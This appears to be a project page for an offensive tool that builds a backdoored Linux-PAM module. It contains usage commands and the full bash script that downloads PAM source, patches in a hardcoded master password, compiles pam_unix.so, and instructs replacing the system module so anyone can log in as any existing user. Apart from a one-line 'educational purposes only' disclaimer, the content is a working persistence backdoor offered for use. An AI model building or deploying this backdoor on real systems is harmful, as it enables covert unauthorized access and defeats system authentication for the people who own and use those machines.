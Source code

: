 ```yaml
---
title: Linux pam Backdoor
---
```

- *Credits to [zephrax](https://github.com/zephrax/linux-pam-backdoor)*

This script automates the creation of a backdoor for Linux-PAM (Pluggable Authentication Modules)

## Usage

To generate the backdoored pam_unix.so, just run:

```shell
./backdoor.sh -v 1.3.0 -p som3_s3cr4t_p455w0rd
```

You have to identify the PAM version installed on the system, to make sure the script will compile the right version. Otherwise you can break the whole system authentication.

After the execution of the script, the last step is to copy the generated pam_unix.so to the pam modules dir on the host.

```shell
cp pam_unix.so /usr/lib/security/
```

That's all.

After that, you can log-in to the system using an existing user, and the previously configured password.

Use this for educational purposes only. I am not responsible for the damage you might cause.

## Dependencies

Tested with Ubuntu 20.04:

- 1.1.8 and older: failed to compile
- 1.2.0: worked
- 1.3.0 to 1.4.0: worked

The following packages were used:

```shell
apt install -y autoconf automake autopoint bison bzip2 docbook-xml docbook-xsl flex gettext libaudit-dev libcrack2-dev libdb-dev libfl-dev libselinux1-dev libtool libcrypt-dev libxml2-utils make pkg-config sed w3m xsltproc xz-utils gcc
```

## The backdoor

```sh
#!/bin/bash

OPTIND=1

PAM_VERSION=
PAM_FILE=
PASSWORD=

echo "Automatic PAM Backdoor"

function show_help {
	echo ""
	echo "Example usage: $0 -v 1.3.0 -p some_s3cr3t_p455word"
	echo "For a list of supported versions: https://github.com/linux-pam/linux-pam/releases"
}

while getopts ":h:?:p:v:" opt; do
    case "$opt" in
    h|\?)
        show_help
        exit 0
        ;;
    v)  PAM_VERSION="$OPTARG"
        ;;
    p)  PASSWORD="$OPTARG"
        ;;
    esac
done

shift $((OPTIND-1))

[ "$1" = "--" ] && shift

if [ -z $PAM_VERSION ]; then
	show_help
	exit 1
fi;

if [ -z $PASSWORD ]; then
	show_help
	exit 1
fi;

echo "PAM Version: $PAM_VERSION"
echo "Password: $PASSWORD"
echo ""

PAM_BASE_URL="https://github.com/linux-pam/linux-pam/archive"
PAM_DIR="linux-pam-${PAM_VERSION}"
PAM_FILE="v${PAM_VERSION}.tar.gz"
PATCH_DIR=`which patch`

if [ $? -ne 0 ]; then
	echo "Error: patch command not found. Exiting..."
	exit 1
fi
wget -c "${PAM_BASE_URL}/${PAM_FILE}"
if [[ $? -ne 0 ]]; then # did not work, trying the old format    
    PAM_DIR="linux-pam-Linux-PAM-${PAM_VERSION}"
    PAM_FILE="Linux-PAM-${PAM_VERSION}.tar.gz"
    wget -c "${PAM_BASE_URL}/${PAM_FILE}"
    if [[ $? -ne 0 ]]; then
        # older version need a _ instead of a .
        PAM_VERSION="$(echo $PAM_VERSION | tr '.' '_')"  
        PAM_DIR="linux-pam-Linux-PAM-${PAM_VERSION}"
        PAM_FILE="Linux-PAM-${PAM_VERSION}.tar.gz"
        wget -c "${PAM_BASE_URL}/${PAM_FILE}"
        if [[ $? -ne 0 ]]; then        
            echo "Failed to download"
            exit 1
        fi        
    fi
fi

tar xzf $PAM_FILE
cat backdoor.patch | sed -e "s/_PASSWORD_/${PASSWORD}/g" | patch -p1 -d $PAM_DIR
cd $PAM_DIR
# newer version need autogen to generate the configure script
if [[ ! -f "./configure" ]]; then 
    ./autogen.sh 
fi 
./configure
make
cp modules/pam_unix/.libs/pam_unix.so ../
cd ..
echo "Backdoor created."
echo "Now copy the generated ./pam_unix.so to the right directory (usually /lib/security/)"
echo ""

```